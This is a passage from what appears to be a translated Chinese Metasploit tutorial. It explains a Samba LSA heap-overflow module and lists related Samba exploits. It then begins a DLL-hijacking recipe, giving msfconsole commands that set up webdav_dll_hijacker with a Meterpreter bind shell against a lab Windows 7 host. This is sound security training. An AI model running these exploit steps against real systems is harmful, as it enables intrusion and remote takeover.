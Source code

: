 ## 它是如何工作的...

让我们快速了解一下服务、其利用和工作的相关内容。Samba 用于 Linux 和 Windows 机器之间的打印和文件共享。该模块触发了 Samba 守护程序的 LSA RPC 服务中的堆溢出。该模块使用了 talloc 块覆盖方法（由 Ramon 和 Adriano 提供），该方法仅适用于 Samba 版本 3.0.21-3.0.24。该利用利用了堆中的动态内存分配。利用可能在第一次尝试时不成功，因此您可以尝试多次以实现成功。

## 还有更多...

让我们再来看一些与 Linux 操作系统相关的更多相关模块。

### Linux 的其他相关利用模块

除了本示例中讨论的利用模块外，还有两个模块值得关注。强烈建议您手动尝试这些利用以深入了解它们。它们是：

+   **Samba chain_reply 内存损坏：**该利用通过破坏 Samba 版本 3.3.13 之前分配给响应数据包的内存来工作。内存通过传递大于目标缓冲区大小的值而崩溃。

+   **Samba trans2open 溢出：**这是 Samba 版本 2.2.0 至 2.2.8 存在的缓冲区溢出漏洞。它通过利用在未设置`noexec`堆栈选项的 x86 Linux 机器上的缺陷来工作。

# 了解 Windows DLL 注入漏洞

在这个示例中，我们将处理一种特殊类型的漏洞，这种漏洞并不直接存在于 Windows 操作系统中。事实上，它存在于运行在 Windows 上的各种应用软件中。这种远程攻击向量涉及影响应用程序如何加载外部库的一类漏洞。我们将对这个问题进行概述，以便进行仔细分析。

## 准备工作

这种攻击向量涉及创建一个脆弱的路径或目录，目标将不得不执行以触发它。该目录可以是文件、提取的存档、USB 驱动器、网络共享等。创建的文件将是完全无害的，但它将执行一个 DLL 注入代码来破坏系统。

## 如何操作...

让我们分析一下 DLL 注入的实际实现。在这个例子中，我们的目标机器是一个未打补丁的 Windows 7 Ultimate 机器。该过程通过创建一个链接来共享文件，目标将不得不访问并执行该文件。随着我们的进展，你将理解这个过程。

1.  我们将使用`exploit/windows/browser/webdav_dll_hijacker`模块作为利用，`windows/meterpreter/bind_tcp`作为有效载荷。让我们快速设置利用和有效载荷以及其他所需的参数：

```
msf > use exploit/windows/browser/webdav_dll_hijacker
msf exploit(webdav_dll_hijacker) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(webdav_dll_hijacker) > show options
Module options (exploit/windows/browser/webdav_dll_hijacker):
Name Current Setting Required Description
---- --------------- -------- -----------
BASENAME policy yes The base name for the listed
EXTENSIONS txt yes The list of extensions
SHARENAME documents yes The name of the top-level
SRVHOST 0.0.0.0 yes The local host...
SRVPORT 80 yes The daemon port to listen
SSLCert no Path to a custom SSL..
URIPATH / yes The URI to use
Payload options (windows/meterpreter/bind_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LPORT 4444 yes The listen port
RHOST 192.168.56.102 no The target address
Exploit target:
Id Name
-- ----
0 Automatic 
```
